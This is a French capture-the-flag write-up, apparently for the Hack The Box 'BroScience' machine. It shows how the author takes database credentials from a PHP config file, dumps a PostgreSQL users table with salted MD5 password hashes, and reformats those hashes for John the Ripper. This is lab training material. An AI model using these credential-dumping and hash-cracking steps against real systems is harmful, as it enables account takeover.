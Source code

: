 #####################################

# NOUVELLE RESOLUTION PRIVESC

#####################################

On cherche dans la base de donnée si elle ne contient pas des informations intéressantes.

Les identifiants de connexions étaient stockés dans le fichier `include/db_connect.php`.

On utilise donc la commande suivante :

```
psql -h localhost -U dbuser -d broscience 
```

On liste les tables disponibles avec

```
\dt
```

Puis on liste les enregistrements de la table `users` :

```
select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
  6 | aze1          | 5cd6546fa55766a2210b9bb796127a2e | aze1@aze.fr                  | GqrsXMa5DfoEPGmy7MvyjZSF5yJmCUIU | t            | f        | 2023-04-06 15:49:55.735886-04
```

On enregistre ce contenu dans le fichier `raw`

La génération du mot de passe est détaillée dans les fichiers suivants :

- db_connect.php : on y trouve la valeur du salt : `$db_salt = "NaCl"`.
- register.php : on y trouve que le mot de passe stocké en base est un hash MD5 de la concaténation du Salt et du mot de passe.

On formatte donc le fichier raw pour qu'il soit interprettable par john :

```
$ awk -F '|' '{print $2":"$3"$NaCl"}' raw | sed 's/ //g' | tee hashes
administrator:15657792073e8a843d4f91fc403454e1$NaCl
bill:13edad4932da9dbb57d9cd15b66ed104$NaCl
michael:bd3dad50e2d578ecba87d5fa15ca5f85$NaCl
john:a7eed23a7be6fe0d765197b1027453fe$NaCl
dmytro:5d15340bded5b9395d5d14b9c21bc82b$NaCl
aze1:5cd6546fa55766a2210b9bb796127a2e$NaCl
```

